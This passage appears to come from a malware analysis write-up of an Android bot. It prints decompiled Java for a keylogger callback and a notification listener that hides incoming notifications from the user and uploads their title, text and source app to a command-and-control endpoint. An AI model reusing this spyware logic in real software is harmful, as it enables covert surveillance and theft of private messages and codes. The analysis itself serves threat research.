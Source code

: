 ```cs
                    KeyLoggerComponent.this.isRequestInProgress.set(false);
                }

                @Override  // com.sdktools.android.bot.rest.RestCallback
                public void onSuccess(RestResponse restResponse0) {
                    KeyLoggerComponent.this.candidateToPass.clear();
                    KeyLoggerComponent.this.isRequestInProgress.set(false);
                }
            });
        }
    }

```


# Classic Features

## Notification intercepting

The malware will try to intercept notification using `onNotificationPosted` callback located in `com.sdktools.android.bot.components.commands`. The malware will intercept the comming notifications and  hide them from the user. Then push/upload the content of the notification to the C2 server.

```cs
 public void onNotificationPosted(StatusBarNotification statusBarNotification0) {
        Log.i(this.TAG, "**********  onNotificationPosted");
        if(SharedPrefHelper.getIsHiddenPushEnabled(this)) {
            this.cancelNotification(statusBarNotification0.getKey());
        }

        Notification notification0 = statusBarNotification0.getNotification();
        String s = notification0.extras.getString("android.title");
        String s1 = notification0.extras.getString("android.text");
        Timber.d("!!!!!", new Object[]{"title - " + s + " | description - " + s1 + " | app - " + statusBarNotification0.getPackageName()});
        String s2 = "Title - " + s + "\nDescription - " + s1;
        try {
            this.sendNotification(statusBarNotification0.getPackageName(), s2);
        }
        catch(Exception unused_ex) {
            return;
        }

        Timber.d("!!!!!", new Object[]{"cancel notification. Hidden"});
    }

    @Override  // android.service.notification.NotificationListenerService
    public void onNotificationRemoved(StatusBarNotification statusBarNotification0) {
        Timber.d("!!!!!", new Object[]{"********** onNOtificationRemoved"});
    }

    private void sendNotification(String s, String s1) {
        HashMap hashMap0 = new HashMap();
        hashMap0.put("appId", s);
        hashMap0.put("text", s1);
        try {
            if(LockerComponent.get() != null && LockerComponent.get().api() != null) {
                LockerComponent.get().api().makePost("device/push", hashMap0).enqueue(new RestCallback() {
                    @Override  // com.sdktools.android.bot.rest.RestCallback
                    public void onError(Throwable throwable0) {
                    }

```